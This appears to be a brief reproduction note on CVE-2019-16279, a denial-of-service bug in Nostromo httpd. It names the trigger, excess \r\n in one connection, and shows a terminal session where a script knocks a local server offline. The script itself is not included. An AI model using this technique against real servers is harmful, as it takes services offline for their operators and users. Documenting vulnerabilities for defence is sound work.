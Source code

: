 # （CVE-2019-16279）dos

> 原文：[http://book.iwonder.run/0day/Nostromo httpd/2.html](http://book.iwonder.run/0day/Nostromo httpd/2.html)

## 一、漏洞简介

（CVE-2019-16279）dos

## 二、影响范围

## 三、复现过程

This bug exploit a memory error when sending too many `\r\n` in a single connexion.

Example

```
$ curl http://127.0.0.1:8080
HELLO!
$ ./CVE-2019-16279.sh 127.0.0.1 8080
$ curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused 
```

